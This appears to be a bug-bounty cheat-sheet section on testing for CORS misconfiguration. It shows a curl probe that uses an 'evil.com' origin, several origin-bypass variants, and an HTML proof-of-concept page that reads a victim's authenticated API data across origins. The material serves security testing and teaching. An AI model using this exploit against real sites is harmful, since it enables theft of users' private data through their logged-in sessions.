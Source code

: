 ## Cross Origin Resource Sharing (CORS)

Testing:
`curl --head -s 'http://example.com/api/v1/secret' -H 'Origin: http://evil.com'`

Some testing conditions: 
if site: test.example.com
Origin: testXexample.com
Origin: test.example.com.np
Origin: test.xexample.com

Check to see what the server responds with in the `Access-Control-Allow-Origin:` (if anything) and if so, check if `Access-Control-Allow-Credentials: true` is present.

If it is trusting arbitrary origins **with** allow-credentials set to true, then host this HTML as a proof of concept.

```
<!DOCTYPE html>
<html>
<head><title>BugBounty CheatSheet</title></head>
<body>
<center>
<h2>CORs POC</h2>

<textarea rows="10" cols="60" id="pwnz">
</textarea><br>
<button type="button" onclick="cors()">Exploit</button>
</div>

<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("pwnz").innerHTML = this.responseText;
    }
  };
  xhttp.open("GET", "http://example.com/api/v1/topsecret", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
```
